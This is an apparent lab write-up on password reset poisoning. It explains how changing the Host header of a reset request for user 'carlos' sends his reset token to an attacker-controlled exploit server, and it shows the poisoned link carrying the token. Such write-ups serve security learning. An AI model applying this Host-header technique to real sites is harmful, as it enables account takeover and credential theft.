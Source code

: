 Title: Basic password reset poisoning
Desc:  This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.
You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server. 

after logging in:
`Your email is: wiener@exploit-0a6e0088038a20a3800f025801140040.exploit-server.net`

![image](https://github.com/user-attachments/assets/77f4acdf-a6da-4d38-80b5-918aef78f456)

send reset password request for carlos:
![image](https://github.com/user-attachments/assets/307203b1-12e1-49ec-b6c0-25a67169e17d)

intercept that
![image](https://github.com/user-attachments/assets/ab539afb-cdc8-488a-8eb7-ba8d41ad8e75)

my domain is : exploit-0a6e0088038a20a3800f025801140040.exploit-server.net

I changed Host header to contain my domain (which I controll):
![image](https://github.com/user-attachments/assets/5663576f-c0d4-4f7c-948c-7b241e69444c)

I know, that the user carlos will click link, so he would receive link like that:
`https://exploit-0a6e0088038a20a3800f025801140040.exploit-server.net/forgot-password?temp-forgot-password-token=iek3ima5s7r8xb8dcm4dh3k2tcwoc12w`

Please note, that in this link there is reset password token. After clicking the link user carlos send GET request to my server and I can see in my logs his request and I can get his token.
`/forgot-password?temp-forgot-password-token=iek3ima5s7r8xb8dcm4dh3k2tcwoc12w`

Now I can use this token to change password of user carlos.










